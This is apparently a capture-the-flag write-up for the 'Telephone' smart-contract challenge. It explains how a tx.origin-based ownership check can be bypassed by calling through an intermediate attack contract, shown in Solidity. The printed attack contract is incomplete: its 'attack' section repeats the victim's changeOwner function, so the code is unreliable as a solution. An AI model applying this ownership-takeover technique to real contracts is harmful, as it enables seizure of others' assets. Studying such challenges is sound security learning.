 # Telephone challenge - Level 4
```yml
This smart contract has a vulnerability, it's use of tx.origin as authorization is a vulnerability because:
```
- if msg.sender is not tx.origin address _owner will equal owner.

```Solidity
/** 
* @notice function changeOwner() uses tx.origin to change ownership 
* to whatever address calls this function just as long as it is not the 
* address that started the original transaction that created this contract 
*/
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

## 💥 The attack contract in detail

```yml 
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.6.0;

import "./Telephone.sol";

/// @title attack contract, assumes ownership
/// @author Web3 Blockchain Developer
contract TelephoneHack {
```

- the constructor receives the victim contract address from the player and references the victim contract with Telephone(_address), this address is assigned as the public state victimContract,

```Solidity
/// @notice state variable assigned in constructor
Telephone telContract;

/** 
* @notice victim address belonging to Telephone contract assigned as
* state variable telContract during deployment of attack contract 
*/
    constructor(address _address) public {
        telContract = Telephone(_address);
    }
```
- finally the attack begins,
- if msg.sender is not tx.origin address _owner will equal owner,
  - the player calls the changeOwner function to assume ownership and win.

```Solidity
/** 
* @notice function changeOwner() uses tx.origin to change ownership 
* to whatever address calls this function just as long as it is not the 
* address that started the original transaction that created this contract 
*/
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

## 💥 The attack contract locked and loaded in REMIX IDE

```yml
Click hackContract button to initiate the attack:
```

- lower left of the image, under the Deployed Contracts section 

<p align="left" >
<img width="512" height="512" src="https://user-images.githubusercontent.com/104662990/199756044-16a699f2-5111-4dfe-a25f-fac81cd4b1ab.png">
</P>
